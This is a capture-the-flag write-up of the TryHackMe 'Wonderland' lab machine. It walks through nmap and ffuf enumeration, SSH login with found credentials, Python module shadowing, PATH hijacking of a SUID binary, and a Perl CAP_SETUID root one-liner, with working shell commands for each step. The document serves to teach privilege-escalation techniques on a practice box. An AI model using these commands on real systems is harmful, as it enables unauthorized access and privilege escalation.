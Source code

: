 ```yaml
---
layout: post
title: thm-wonderland
description: THM Wonderland machine writeup. 
category: writeups
tags: python, suid, 
date: 2025-07-19 18:16 +0100
---
```

# Wonderland 
>Overall it was a fun box. Pretty basic enumeration and exploitation techniques we just have to keep up with the a bit long attack vector. Before diving into the walk-through here's a summary of some of the techniques we'll cover shortly:

1. The enumeration didn't have anything complicated: <mark style="color:blue;">basic nmap scan, few fuzzing</mark> and we find some <mark style="color:blue;">cleartext credentials</mark> that'll ssh us into the machine as a regular user. The user flag was in a very strange directory (as the comments stated as well)
2. To get to root, we'll be doing some <mark style="color:blue;">lateral movement</mark> as well. from the foothold as Alice we'll exploit a basic <mark style="color:blue;">Module Shadowing</mark> to gain access to rabbit.
3. From there, we'll find a binary with a <mark style="color:blue;">SUID bit</mark> that we'll use to gain access to hatter account through a <mark style="color:blue;">PATH Hijacking</mark>.
4. Finally, for root, back to the basics after some manual inspection, linpeas.sh (after <mark style="color:blue;">File transferring</mark> it to the target) shows <mark style="color:blue;">CAP\_SETUID</mark> available for the Perl interpreter!
{: .prompt-tip }     
Pwned successfully!

## Enumeration

```bash
sudo sh -c 'echo "<IP> wonderland.thm" >> /etc/hosts'
```

### Nmap

```bash
nmap wonderland.thm -sV -sC -Pn -T4 -oN def-scripts-scan -vv

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-1.png?raw=true)

Okay then let's follow the white rabbit. To fuzzing now. Normally at this point we like to leave a UDP scan to run in the background or a full ports TCP scan and proceed further in our enumeration because nmap only scans the first top 1000 ports. We could possibly miss something if we only check those ports. For this machine the scan lead to nothing so you should step over that part and think about it for the next machines :smile:.

### Fuzzing

#### Subdomains/Vhosts

The scan for subdomains/Vhosts lead to nothing for this box. So we move on. (For the command below, you should consider a filter of your own with ffuf because we'll get lots of irrelevant stuff)

```bash
$ffuf -w <wordlist.txt>:FUZZ -u http://wonderland.thm -c -H 'Host: FUZZ.wonderland.thm'
```

#### Directories

```bash
$ffuf -w <wordlist.txt>:FUZZ -u http://wonderland.thm/FUZZ -c -v 
```

The command above will return the following directories:&#x20;
![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-2.png?raw=true)


![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-3.png?raw=true)

The `/img` directory was also clear to find when inspecting the home page.

![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-4.png?raw=true)

Containing the following files:

![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-5.png?raw=true)

Looking for fuzzing the other sub directories we find the following pattern:
![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-6.png?raw=true)

Intuitively, checking the source code of every directory we find, we stumble upon what seems to be Clear-text Credentials of user Alice:
![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-7.png?raw=true)


## Foothold/user flag - Alice

Since for now we didn't find any login portal, ssh is the only way we could possibly gain a foothold. Which was successful!

![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-8.png?raw=true)


Okay root flag file in the home directory? Strange. How to deal with strange? Be even more strange:

![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-9.png?raw=true)



## Lateral Movement

### 2nd User - Rabbit

```bash
find / -perm -4000 2>/dev/null
```
![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-10.png?raw=true)


```bash
find / -perm -2000 2>/dev/null
```
![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-11.png?raw=true)


Nothing in here.

At this point, we normally look for kernel exploit or a critical kernel vulnerability (Which is also done right after gaining foothold at the machine.) which also lead to nothing in this machine.

The command below tells us what binaries we can run as sudoers (if misconfigured):

```bash
$sudo -l
```
![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-12.png?raw=true)


Okay, if we find a way to exploit the `walrus*.py` file and combine it with sudo command as `rabbit` user, we could get a shell as `rabbit`. Let's enumerate further.

Running the python script and checking the source code, we found nothing BUT thee first line:
![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-13.png?raw=true)


This will lead to <mark style="color:red;">module shadowing</mark>, which is exploiting the way python imports modules, tricking the interpreter to import a local version of the random module. This is due to the random module is a `.py` file not a precompiled binary(built-in). Here's some resources to dive more into that vulnerability:



```bash
$echo "import os;os.system('/bin/sh')" > random.py
$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-14.png?raw=true)



### 3rd User - Hatter

Intuitively checking the rabbit's home directory:
![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-15.png?raw=true)


Alright, no `strings` command, no `binwalk`, no `ltrace`, no `strace`. we gotta transfer this file to our local machine.

#### File Transfer

This can be done using many methods. We could use `scp` tool which is based on ssh, simple base64 encoding, or using a `python HTTP server`. BUT, in our case, the most efficient and quick way is setting up a `python HTTP server` and download the file with curl/wget. This is because we have access to the python interpreter and in order to use scp, we will need to add an ssh key for user rabbit.

Here's how we're going to do it:

```bash
compromized-host$cd /home/rabbit
compromized-host$python3 -m http.server
```

```bash
attacking-machine$wget http://target-ip:8000/teaParty
```
![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-16.png?raw=true)


![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-17.png?raw=true)


Okay, no need to debug or anything, we got something interesting:

```bash
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

Here's why this line of code might be vulnerable: the one-liner  uses non relative path for the date command. So if thee system relies of the PATH variable to execute the command, we might alter  the PATH variable and point it to a malicious binary of our choice, and since teaParty has SUID bit set, we can move forward to the next user. Here we go:

```bash
compromized-host$echo '#! /bin/bash\n/bin/sh' > /tmp/date
# You can choose the home directory not the /tmp.  
compromized-host$
compromized-host$chmod +x /tmp/date
compromized-host$export PATH=/tmp:$PATH
compromized-host$./teaParty
```
![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-18.png?raw=true)


Now with the cleartext credentials on the home directory we ssh into the server with hatter user.

## Privilege Escalation

After getting the [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) script on the machine using one of the methods we [mentioned](wonderland.md#file-transfer). We get interesting vulnerable stuff:
![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-19.png?raw=true)


> Traditionally, a Linux process is either privileged (running as root) or unprivileged. Privileged processes are not subject to kernel permission checks, and thus have full power over a system. A capability is a distinct and independent privilege that can be used by a process to bypass certain permission checks. Capabilities were first introduced in Linux 2.2, and several more were added in later versions. They are usually set on executable files and are automatically granted to the process when a file with a capability is executed. Capabilities essentially divide the power of the root user into separate privileges, which improves security by limiting the access an attacker would gain by exploiting or abusing a service

So, i simple perl script that sets the hatter user ID to 0 will bypass all the privileges checking since the process will have that specific capability. Here's a script i found on [GTFObins](https://gtfobins.github.io/gtfobins/perl/).

```bash
/usr/bin/perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
![Nmap Output](https://github.com/7ankalis/assets/blob/main/pages/thm/wonderland-20.png?raw=true)



